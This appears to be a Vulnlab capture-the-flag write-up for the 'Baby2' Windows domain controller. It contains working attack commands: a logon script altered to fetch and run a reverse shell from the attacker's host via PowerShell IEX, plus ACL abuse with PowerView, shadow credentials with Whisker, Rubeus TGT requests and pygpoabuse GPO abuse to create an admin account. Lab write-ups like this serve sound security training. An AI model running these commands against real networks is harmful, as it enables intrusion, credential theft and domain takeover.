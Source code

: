 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Baby2/logo.png
date: 2024-08-06 09:45:47 +07:00
modified: 2024-08-06 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: r0BIT
  link: https://www.linkedin.com/in/robin-unglaub/
tags: [Baby2, Nmap, SMB, VBS Phishing, SYSVOL, BloodHound, PowerView, WriteDACL, Shadow Credentials, GPO Abuse, Privilege Escalation, Reverse Shell, TGT, NTLM Hash, Scheduled Task, Active Directory]
title: Baby2 - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Baby2 is a **Medium** difficult machine where I began with a Nmap scan revealing several open ports on the target, including SMB and LDAP. Access to SMB shares with a null password provided read/write permissions on the homes share, revealing user information and a VBS logon script in the SYSVOL share. The script was modified to execute a reverse shell, leading to access as the user Amelia Griffiths. Using BloodHound and PowerView, it was discovered that Amelia had WriteDACL rights over the GPOADM account. This privilege was used to create shadow credentials, gain a TGT, and ultimately compromise the domain by creating a new admin user, allowing full control of the system.

# Enumeration
The Nmap scan shows the following ports.

```Bash
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
```
I can enumerate shares with username and null password. I have READ and WRITE permission on homes share.
`netexec smb 10.10.84.43 -u 'sz' -p '' --shares`
![](https://photos.squarezero.dev/file/abir-images/Baby2/1.png)

Inside apps share I found a shortcut file that shows that there is a scripts folder inside SYSVOL where it's connected to.
![](https://photos.squarezero.dev/file/abir-images/Baby2/2.png)

![](https://photos.squarezero.dev/file/abir-images/Baby2/3.png)

On **homes** share there is a list of users.

![](https://photos.squarezero.dev/file/abir-images/Baby2/4.png)

After brute forcing using I found 2 domain creds. And user library has both READ & WRITE access on SYSVOL share.

![](https://photos.squarezero.dev/file/abir-images/Baby2/5.png)
![](https://photos.squarezero.dev/file/abir-images/Baby2/6.png)

Inside SYSVOL I found a VBS logon script.

![](https://photos.squarezero.dev/file/abir-images/Baby2/7.png)

```vb
Sub MapNetworkShare(sharePath, driveLetter)
    Dim objNetwork
    Set objNetwork = CreateObject("WScript.Network")    
  
    ' Check if the drive is already mapped
    Dim mappedDrives
    Set mappedDrives = objNetwork.EnumNetworkDrives
    Dim isMapped
    isMapped = False
    For i = 0 To mappedDrives.Count - 1 Step 2
        If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
            isMapped = True
            Exit For
        End If
    Next
    
    If isMapped Then
        objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
    End If
    
    objNetwork.MapNetworkDrive driveLetter & ":", sharePath
    
    If Err.Number = 0 Then
        WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
    Else
        WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
    End If
    
    Set objNetwork = Nothing
End Sub

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```
# VBS Phishing

I have changed the script so that when someone login and the script executes, it will download my reverse-shell script and execute it. And then replaced the script with the original one.

![](https://photos.squarezero.dev/file/abir-images/Baby2/8.png)

```vb
set shell = CreateObject("WScript.Shell")
shell.Run("powershell -w hidden -ep bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.2.110/rev.ps1');")

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```

After the script executed I got the reverse shell as **Amelia Griffiths**
![](https://photos.squarezero.dev/file/abir-images/Baby2/9.png)
![](https://photos.squarezero.dev/file/abir-images/Baby2/10.png)

# Write DACL
Amelia is in some non-default Windows groups.
![](https://photos.squarezero.dev/file/abir-images/Baby2/12.png)

I ran Bloodhound to enumerate domain and ACL and Amelia is a member of Legacy and has WriteDACL on GPOADM. and GPOADM use have GenericAll to Domain Policy.
`bloodhound-python -u 'Carl.Moore' -p 'Carl.Moore' -ns 10.10.73.219 -d baby2.vl -c all --auth-method auto --zip --dns-tcp`
![](https://photos.squarezero.dev/file/abir-images/Baby2/14.png)

I used PowerView to make Amelia the owner of GPOADM and then give Amelia GenericAll the rights over GPOADM.

`Set-DomainObjectOwner -Identity gpoadm -OwnerIdentity amelia.griffiths`
`Add-DomainObjectAcl -TargetIdentity "gpoadm" -PrincipalIdentity Amelia.Griffiths -Rights All`

![](https://photos.squarezero.dev/file/abir-images/Baby2/18.png)

To confirm the change I used the following command.
`get-aduser gpoadm | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}`

# Shadow Credentials
Now using the rights I can create shadow credentials.

`.\Whisker.exe add /target:gpoadm /domain:baby2.vl /dc:dc.baby2.vl /path:C:\Users\Public\cert.pfx /password:Password`

![](https://photos.squarezero.dev/file/abir-images/Baby2/19.png)

Using the certificate I can now generate a TGT using Rubeus.
`Rubeus.exe asktgt /user:gpoadm /certificate:C:\Users\Public\cert.pfx /password:"Password" /domain:baby2.vl /dc:dc.baby2.vl /getcredentials /show`

![](https://photos.squarezero.dev/file/abir-images/Baby2/20.png)

Using GPOADM NTLM hash I can create a scheduled task where it will create a new user John with Administrator privilege. **pygpoabuse** needs a GPO ID to abuse it.
`python3 pygpoabuse.py baby2.vl/GPOADM -hashes :51B4E7AEE2FBDD4E36F2381115C8FE7A -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -f -dc-ip 10.10.73.219`
![](https://photos.squarezero.dev/file/abir-images/Baby2/16.png)
![](https://photos.squarezero.dev/file/abir-images/Baby2/21.png)

Note: In Powershell Get-GPO -all also get all the GPO IDs.

To make the process faster and apply the GPO update.
`gpudate /force`

Now I can log in as John and get the root flag.

![](https://photos.squarezero.dev/file/abir-images/Baby2/22.png)

# Password Reset
Alternatively, I could change the password of the user which is not OFFSEC-friendly.

First I can give group legacy GenericALL permission. 
`Add-DomainObjectAcl -TargetIdentity "GPOADM" -PrincipalIdentity legacy -Domain baby2.vl -Rights All -Verbose`

Next, reset and give a new password to the GPOADM user.
`Set-ADAccountPassword -Identity 'CN=GPOADM,OU=GPO-MANAGEMENT,DC=BABY2,DC=VL' -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password" -Force)`

Using the new password I can create a scheduled task where it will create a new user with administrator privileges.
`python3 pygpoabuse.py -user 'baby2.vl/gpoadm:Password' -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -f -dc-ip 10.10.73.219`
![](https://photos.squarezero.dev/file/abir-images/Baby2/17.png)
